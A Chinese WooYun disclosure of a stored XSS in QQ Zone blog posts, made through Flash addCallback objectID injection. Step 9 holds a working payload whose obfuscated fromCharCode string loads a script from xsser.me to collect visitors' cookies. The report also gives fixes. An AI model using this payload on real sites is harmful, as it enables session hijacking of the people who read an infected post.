





# 21\. 存储型 XSS 进阶 [猜测规则，利用 Flash addCallback 构造 XSS]

> 来源：[21\. 存储型 XSS 进阶 [猜测规则，利用 Flash addCallback 构造 XSS]](http://www.wooyun.org/bugs/wooyun-2010-016803)

## 简要描述

有些时候，我们拿现成的 XSS 代码都不行，都被过滤了，那么需要我们对过滤的规则进行一定的判断与猜测。然后针对性的使用一些技 巧来适应或者绕过规则。

在本例中，我们以 QQ 空间/QQ 校友的日志功能为例，通过猜测简单的过滤规则，然后使用含有 addCallback 的 flash，来实现了存储型 XSS 的构造。

详细说明：

1\. 前提：本例需在 IE9，IE10 下进行。

2\. 我们乌云上报告的一些已有案例，进行了再次测试。

[（QQ 空间+朋友网）日志功能存储型 XSS](http://www.wooyun.org/bugs/wooyun-2012-013721)

上例中，提到了 QQ 空间日志并未对 object 标签进行有效的过滤。

3\. 我们根据此例中的代码对过滤规则进行测试：

```
<object width="100%" height="100%" align="middle" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="Movie" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="Src" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

以上的代码，是可以正常提交，并且未过滤的。

```
<object width="100%" height="100%" align="middle" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="Movie" VALUE="http://mysite.com/vphoto.swf"><PARAM NAME="Src" VALUE="http://mysite.com/vphoto.swf"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

而当 swf 的域名不是 qzs.qq.com 时候，代码将会被过滤为以下内容。

```
<object width="100%" height="100%" align="middle" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

即地址被去掉了。

4\. 那么我们已知了这个过滤规则， 就有 2 种绕过的方式。

4.1 找到一个 qzs.qq.com 域名下存在缺陷的 FLASH，然后加以利用。

此方法，已经在 @gainover 的 [WooYun: PKAV 腾讯专场 - 6\. （QQ 空间+朋友网）日志功能存储型 XSS](http://www.wooyun.org/bugs/wooyun-2012-013721) 有所介绍了。

4.2 利用 Flash 的 addcallback 缺陷来构造存储型 XSS。

5\. 首先说下 flash addcallback 方法的基本原理。

根据 flash sdk 里的源代码，我们可以得到 flash addcallback 的源代码中有以下代码。

```
if ((((activeX == true)) && (!((objectID == null))))){
    _evalJS(((((" flash addCallback(document.getElementById(\"" + objectID) + "\"), \"") + functionName) + "\");"));
}; 
```



其中 objectID 为调用 FLASH 的 HTML 标签的 ID。functionName 则为被 JS 所调用的函数名称。

6\. 当我们有以下代码时：

```
<object id="aaaa" width="100%" height="100%" align="middle" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="Movie" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="Src" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

且 [`qzs.qq.com/qzone/client/photo/swf/vphoto.swf`](http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf) 中存在一句

```
ExternalInterface.addCallback("myfunc",funcInFlash); 
```

则有

```
objectID="aaaa";
functionName="myfunc"; 
```

代入上面那句 _evalJS 中，则有

```
flash addCallback(document.getElementById("aaaa"), "myfunc"); 
```

7\. 那么我们可以想象一下，如果 aaaa 替换为 `aaaa"),alert(1),("` 则上面代码变为

```
flash addCallback(document.getElementById("aaaa"),alert(1),(""), "myfunc"); 
```

解析：



8\. 且 FLASH 中，确实未对 objectID 做任何过滤。 基于以上内容，我们可以构建利用代码。

```
<object id='aaaa"),alert(1),("' width="100%" height="100%" align="middle"
classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="Movie" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="Src" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

我们自己用上面这段代码先在自己网站上测试下：



看，果然 id 里的代码被执行了！

9\. 利用以上原理，接着我们在 QQ 空间里来做测试，至于 FLASH 么，就是现成的！ 虽然这个 FLASH 里没有缺陷，但是存在 addCallback 的调用，我们就可以直接用它。

```
<object width="100%" height="100%" align="middle" id="xsstest1&quot),(function(){if(!window. x){window. x=1;window.s=document.createElement(String.fromCharCode(115,9 9,114,105,112,116));window.s.src=String.fromCharCode(104,116,116,112,58,47,47,120,115,115,101,114,46,109,101,47,66,11
3,112,57,82,121);document.body.appendChild(window.s);}})(),(&quot;"
classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="Movie"
VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="Src" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

发布日志，使用以上代码



10\. 当用户访问含有 XSS 代码的日志后，我们可以在 xsser.me 查看所记录的 cookies 内容。



修复方案：

1\. 过滤 object 标签

2\. 设置 allowscriptaccess 为 never ，即使设置为 sameDomain, 也可能找到同域下含有 addCallback 调用的 FLASH。